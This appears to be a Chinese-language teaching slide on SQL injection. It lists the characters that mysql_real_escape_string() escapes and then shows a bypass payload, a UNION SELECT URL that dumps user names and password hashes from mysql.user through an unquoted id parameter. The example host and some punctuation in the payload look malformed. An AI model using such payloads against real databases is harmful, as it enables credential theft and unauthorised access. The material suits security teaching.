

mysql_real_escape_string()仅仅会转义：
‘
“
\r
\n
NULL
Control-Z
想到绕过的payload了吗？
payload：
http://www.sysoremxyz/test.php?id=12,AND, 1=0,UNION,SELECT,1,CONCAT(user,0x3a,password)3,4,5,6,from,mysql.user,where,user=substring_index(current_user(),char(64),1)